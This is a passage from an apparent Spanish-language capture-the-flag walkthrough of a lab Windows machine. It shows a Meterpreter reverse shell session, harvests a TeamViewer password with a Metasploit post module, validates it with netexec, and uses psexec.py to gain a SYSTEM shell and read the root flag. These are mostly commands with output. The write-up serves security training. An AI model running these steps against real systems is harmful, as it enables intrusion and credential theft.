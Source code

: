 Y en `metasploit` vemos que tenemos una nueva sesión abierta.
```console
[*] Meterpreter session 1 opened (10.10.14.87:443 -> 10.129.230.172:49713) at 2024-11-29 15:42:40 +0100
```

Ahora si ejecutamos el módulo `post/windows/gather/credentials/teamviewer_passwords` vemos que encontramos una credencial.
`!R3m0te!`

No se para que usuario podría ser esta credencial, y al revisar los usuarios del sistema vemos que no existe ninguno.
```console
PS C:\windows\system32\inetsrv> net users
User accounts for \\
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
WDAGUtilityAccount
```

Con `netexec` podemos comprobar si esta es la contraseña del usuario administrador y vemos que si.
```console
nxc smb 10.129.230.172 -u administrator -p '!R3m0te!'
SMB         10.129.230.172  445    REMOTE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:REMOTE) (domain:remote) (signing:False) (SMBv1:False)
SMB         10.129.230.172  445    REMOTE           [+] remote\administrator:!R3m0te! (Pwn3d!)
```

Y ya con `psexec` podemos conseguir una consola como `nt authority\system` con máximos privilegios.
```console
psexec.py -target-ip 10.129.230.172 administrator:'!R3m0te!'@10.129.230.172
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.230.172.....
[*] Found writable share ADMIN$
[*] Uploading file wdIbFZtd.exe
[*] Opening SVCManager on 10.129.230.172.....
[*] Creating service gzMd on 10.129.230.172.....
[*] Starting service gzMd.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Podemos leer la flag de `root`
```console
c:\Users\Administrator\Desktop> type root.txt
0d5f3e3b6dd3bca...
```

¡Y ya estaría!

Happy Hacking! 🚀